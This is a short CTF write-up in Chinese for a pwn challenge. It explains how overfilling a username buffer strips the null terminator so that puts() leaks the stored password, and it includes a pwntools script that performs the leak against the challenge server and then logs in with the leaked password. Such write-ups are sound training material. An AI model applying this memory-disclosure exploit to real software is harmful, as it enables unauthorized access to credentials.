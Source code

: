 # 挑战简介
再近一点靠近点快被融化

# 思路
一个要你输入用户名以及密码的程序，只要你的密码输入正确，就可以获得flag  

我们可以充分利用puts函数，puts遇到\x00才会终止输出，而用户名，密码早就利用fgets进入了输出流，所以我们可以利用栈溢出来填补用户名的\x00，直到密码的栈区块，从而将password输出出来即可

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

p = remote("pwn.challenge.ctf.show",28228)
elf = ELF('D:\edge 下载\pwn')

p.recvuntil("Input your Username:\n")

p.send(b"a"*255 + b"b")

p.recv(264)

password = p.recv()

print(password)

p = remote("pwn.challenge.ctf.show",28228)

p.recvuntil("Input your Username:\n")

p.sendline("a")

p.recvuntil("a")

payload = password

p.sendline(payload)

p.recv()

p.interactive()

```
